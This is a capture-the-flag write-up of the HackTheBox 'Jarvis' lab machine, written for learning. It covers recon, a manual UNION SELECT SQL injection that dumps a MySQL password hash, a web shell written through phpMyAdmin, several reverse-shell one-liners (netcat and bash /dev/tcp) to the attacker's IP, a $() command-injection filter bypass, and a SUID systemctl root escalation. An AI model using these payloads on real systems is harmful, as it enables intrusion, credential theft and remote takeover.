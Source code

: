 ```yaml
---
title: Jarvis
date: 2022-06-17 
categories: [HackTheBox, Medium]
tags: [writeup, linux]     # TAG names should always be lowercase
author: Derrick
---
```


![](https://i.imgur.com/mqAZPzN.png)

This time around, we got a Tony Stark themed box- Jarvis. This box was the first time playing around with sql injection. The box taught me how to perform UNION SELECT to enumerate the database by hand rather than using a tool such as sqlmap.

## Recon
`nmap -sVC 10.10.10.143`
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-16 23:21 EDT
Nmap scan report for 10.10.10.143
Host is up (0.080s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.61 seconds
```

`gobuster dir -u http://jarvis.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -t 50 -x php`
```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://jarvis.htb
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
2022/06/17 00:24:44 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 23628]
/images               (Status: 301) [Size: 309] [--> http://jarvis.htb/images/]
/nav.php              (Status: 200) [Size: 1333]
/footer.php           (Status: 200) [Size: 2237]
/css                  (Status: 301) [Size: 306] [--> http://jarvis.htb/css/]   
/js                   (Status: 301) [Size: 305] [--> http://jarvis.htb/js/]    
/fonts                (Status: 301) [Size: 308] [--> http://jarvis.htb/fonts/] 
/phpmyadmin           (Status: 301) [Size: 313] [--> http://jarvis.htb/phpmyadmin/]
/connection.php       (Status: 200) [Size: 0]
/room.php             (Status: 302) [Size: 3024] [--> index.php]
/sass                 (Status: 301) [Size: 307] [--> http://jarvis.htb/sass/]
/server-status        (Status: 403) [Size: 298]
Progress: 280888 / 415288 (67.64%)
===============================================================
2022/06/17 00:32:18 Finished
===============================================================
```

![](https://i.imgur.com/VzOaEmJ.jpg)

The website seems to be Tony stark themed, pretty nice. It's running php based on the nmap scan.

## Foothold

![](https://i.imgur.com/4e9VEeS.png)

The rooms pages are based on a php file passing the arguments into queries in mysql. This may be vulnerable to sql injection.
```
http://jarvis.htb/room.php?cod=2
```
We can try a UNION SELECT to try to dump the tables. After some testing, there are 7 entries.
```
http://jarvis.htb/room.php?cod=2 UNION SELECT 1,2,3,4,5,6,7
```
This returns the same entry as the default.
![](https://i.imgur.com/NpNTCLZ.png)

---

```
http://jarvis.htb/room.php?cod=100 UNION SELECT 1,group_concat(schema_name),3,4,5,6,7 FROM information_schema.schemata
```
This query shows us what tables are available
![](https://i.imgur.com/nN67WZE.png)

---

```
http://jarvis.htb/room.php?cod=100 UNION SELECT 1,group_concat(table_name),3,4,5,6,7 FROM information_schema.tables WHERE table_schema='mysql'
```
And this is what is inside of mysql
![](https://i.imgur.com/UzKc47v.png)

---

```bash=
http://jarvis.htb/room.php?cod=100 UNION SELECT 1,2,user,password,5,6,7 FROM mysql.user
```

And to grab from user within mysql

![](https://i.imgur.com/mCYy8HT.png)

DBadmin:*2D2B7A5E4E637B8FBA1D17F40318F277D29964D0

While I initially attempted to just spray this password,

>"This looks like a hash" - Sydney.


She's correct. It is a mysql password hash. Tossing it into crackstation should do the trick. The crack for it is "imissyou". These creds are going to be used for the phpmyadmin page earlier

![](https://i.imgur.com/ubGZMKy.png)
From here we can write a webshell into the webroot, or atleast where we assume the webroot was.
![](https://i.imgur.com/q831hW4.png)

```
select "<?php echo shell_exec($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php" 
```

From here we can execute commands from jarvis.htb/shell.php using the cmd parameter that we wrote in.

`nc -c bash 10.10.14.19 4444`

Push that into the command line

```
listening on [any] 4444 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.143] 60950
whoami
www-data
```

We have shell

## User

Check sudo perms
`sudo -l`
```
Matching Defaults entries for www-data on jarvis:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on jarvis:
    (pepper : ALL) NOPASSWD: /var/www/Admin-Utilities/simpler.py
```

Looks like we can run this certain command as pepper. Would not be a bad idea to try to pivot to a different user to see if we can potentially abuse anything new.

```
def exec_ping():              
    forbidden = ['&', ';', '-', '`', '||', '|']                                               
    command = input('Enter an IP: ')    
    for i in forbidden:                                                                                                                                                                      
        if i in command:
            print('Got you')                   
            exit()     
    os.system('ping ' + command)
```

Looks like command injection is possible within that command we are running. We can pass on a variable into the ip parameter. However, there is input sanitization. We can get around this by wrapping our command/file we want to run in a variable.

```
#!/bin/bash

nc -e /bin/bash 10.10.14.19 6969
```
Contents of /tmp/lmao/shell.sh

`sudo -u pepper /var/www/Admin-Utilities/simpler.py -p`
```
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

$(/tmp/lmao/shell.sh)
```

```
pepper@jarvis:~/.ssh$ whoami;id
whoami;id
pepper
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
```
We have user :)

## Root

So we have systemctl as a SUID from linpeas. The following steps were performed from a list of instructions from [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/#suid)

```
[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.19/9001 0>&1'

[Install]
WantedBy=multi-user.target
```

Call this file root.service
Enable and start the service

`systemctl enable /home/pepper/root.service`
```
Created symlink /etc/systemd/system/multi-user.target.wants/root.service → /home/pepper/root.service.
Created symlink /etc/systemd/system/root.service → /home/pepper/root.service.
```
`systemctl start root`

```
listening on [any] 9001 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.143] 39174
bash: cannot set terminal process group (7963): Inappropriate ioctl for device
bash: no job control in this shell
```
Pwned :)
